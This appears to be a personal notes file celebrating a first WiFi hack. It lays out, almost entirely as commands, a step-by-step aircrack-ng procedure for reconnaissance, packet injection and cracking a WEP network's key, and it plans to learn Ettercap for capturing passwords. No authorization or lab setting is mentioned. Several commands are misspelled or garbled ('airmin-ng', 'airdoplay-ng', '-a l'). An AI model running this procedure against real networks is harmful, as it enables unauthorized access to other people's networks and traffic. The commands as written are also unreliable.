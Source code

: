 # 27/11/2015

Hacked WiFi for the first time! ![FOTO](http://i.imgur.com/PP0AThP.png)

# Steps/Commands

wlan0 = own interface -> wlan1monmon
mon0 = find it by "airmon-ng"

**Wireless Reconnaiccance:**
Window 1
* iwconfig
* airmin-ng start wlan0
* airodump-ng mon0
* Find information in table
  * ESSID
  * BSSID
  * Channel
  * Client's  MAC

**WEP:**
Window 1
* airmon-ng
  * Find mon0
* airodump-ng mon0
* Find information in table
	
New window 2
* airodump-ng --bssid "client's MAC" -c "Channel" -w wep_log mon0

New window 3 
* ifconfig 
* Find own MAC

New window 4
* airdoplay-ng -l 0 -a "client's MAC" -h "own MAC" -e "name connaction" mon0 --ignore-negative-one
* airoplay-ng -3 -b "client's MAC" -h "own MAC" mon0 --ignore-negative-one

New window 5
* aireplay-ng -2 -p 0841 -c FF:FF:FF:FF:FF:FF -b "client's MAC" -h "own MAC" mon0 --ignore-negative-one
* use this packet? ENTER


Window 2 
* Everything is fine if data is above 5000 
* Close window 2, 3, 4, 5

First window	
* clear
* aircrack-ng -a l -b "client's MAC" -n 64 wep_log-01.cap
	
FIND PASSWORD!!!!

Next time: Script schrijven!
TODO: Ethercap opzoeken (Hoe wachtwoorden "vangen" !?)
